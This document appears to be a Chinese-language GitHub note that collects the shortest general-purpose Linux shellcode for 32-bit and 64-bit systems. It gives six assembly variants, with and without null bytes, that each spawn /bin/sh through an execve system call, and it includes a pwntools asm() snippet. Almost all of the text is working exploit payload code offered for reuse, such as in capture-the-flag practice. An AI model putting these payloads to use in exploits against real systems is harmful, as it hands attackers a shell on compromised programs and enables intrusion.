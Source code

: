 
在寄存器都是非理想值情况下(shellcode可根据环境具体触发时寄存器的值做长度调整)，我本着最优通用的原则，整理了Linux下32位和64位最短通用shellcode的编写

## 32位

有"\x00"最短 20 byte
```python
shellcode= '''            
xor ecx,ecx               
mul ecx                   
mov al,0xb                
push 0x68732f             
push 0x6e69622f           
mov ebx,esp               
int 0x80                  
'''                       
shellcode=asm(shellcode)
```
无"\x00"最短 21 byte

```nasm
xor ecx,ecx
mul ecx
push eax
mov al,0xb
push 0x68732f2f   
push 0x6e69622f   
mov ebx,esp
int 0x80
```

标准shellcode 23 byte
```nasm
xor ecx,ecx
xor edx,edx
push edx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
xor eax,eax
mov al,0xB
int 0x80
```
## 64位


最短有"\x00" 22 byte

```nasm
xor rsi,rsi
mul esi
mov rbx,0x68732f6e69622f
push rbx
push rsp
pop rdi
mov al, 59
syscall
```

最短无"\x00" 23 byte

```nasm
xor rsi,rsi
mul esi
push rax
mov rbx,0x68732f2f6e69622f
push rbx
push rsp
pop rdi
mov al, 59
syscall
```

标准shellcode 31 byte

```nasm
xor    rdi,rdi
xor    rsi,rsi
xor    rdx,rdx
xor    rax,rax
push   rax
mov rbx,0x68732f2f6e69622f
push   rbx
mov    rdi,rsp
mov    al,0x3b
syscall 
```